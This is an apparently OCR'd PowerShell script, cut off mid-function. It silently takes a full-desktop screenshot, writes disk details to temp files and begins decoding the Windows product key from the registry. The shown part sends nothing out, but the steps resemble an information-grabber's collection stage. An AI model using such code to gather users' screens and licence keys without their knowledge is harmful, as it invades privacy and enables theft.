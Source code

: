 	# Desktop screenshot
	
    Add-Type -AssemblyName System.Windows.Forms,System.Drawing
    $screens = [Windows.Forms.Screen]::AllScreens
    $top    = ($screens.Bounds.Top    | Measure-Object -Minimum).Minimum
    $left   = ($screens.Bounds.Left   | Measure-Object -Minimum).Minimum
    $width  = ($screens.Bounds.Right  | Measure-Object -Maximum).Maximum
    $height = ($screens.Bounds.Bottom | Measure-Object -Maximum).Maximum
    $bounds   = [Drawing.Rectangle]::FromLTRB($left, $top, $width, $height)
    $bmp      = New-Object System.Drawing.Bitmap ([int]$bounds.width), ([int]$bounds.height)
    $graphics = [Drawing.Graphics]::FromImage($bmp)
    $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)
    $bmp.Save("$env:localappdata\temp\desktop-screenshot.png")
    $graphics.Dispose()
    $bmp.Dispose()
	
    function diskdata {
    $disks = get-wmiobject -class "Win32_LogicalDisk" -namespace "root\CIMV2"
    $results = foreach ($disk in $disks) {
        if ($disk.Size -gt 0) {
            $SizeOfDisk = [math]::round($disk.Size/1GB, 0)
            $FreeSpace = [math]::round($disk.FreeSpace/1GB, 0)
    		$usedspace = [math]::round(($disk.size - $disk.freespace) / 1GB, 2)
            [int]$FreePercent = ($FreeSpace/$SizeOfDisk) * 100
			[int]$usedpercent = ($usedspace/$SizeOfDisk) * 100
            [PSCustomObject]@{
                Drive = $disk.Name
                Name = $disk.VolumeName
                "Total Disk Size" = "{0:N0} GB" -f $SizeOfDisk 
                "Free Disk Size" = "{0:N0} GB ({1:N0} %)" -f $FreeSpace, ($FreePercent)
                "Used Space" = "{0:N0} GB ({1:N0} %)" -f $usedspace, ($usedpercent)
            }
        }
    }
    $results | out-string 
    }
    $alldiskinfo = diskdata
    $alldiskinfo > $env:temp\DiskInfo.txt

    function Get-ProductKey {
      $map="BCDFGHJKMPQRTVWXY2346789"
      $value = (get-itemproperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion").digitalproductid[0x34..0x42]
      $ProductKey = ""
      for ($i = 24; $i -ge 0; $i--) {
        $r = 0
        for ($j = 14; $j -ge 0; $j--) {
          $r = ($r * 256) -bxor $value[$j]
          $value[$j] = [math]::Floor([double]($r / 24))
          $r = $r % 24
        }
        $ProductKey = $map[$r] + $ProductKey
    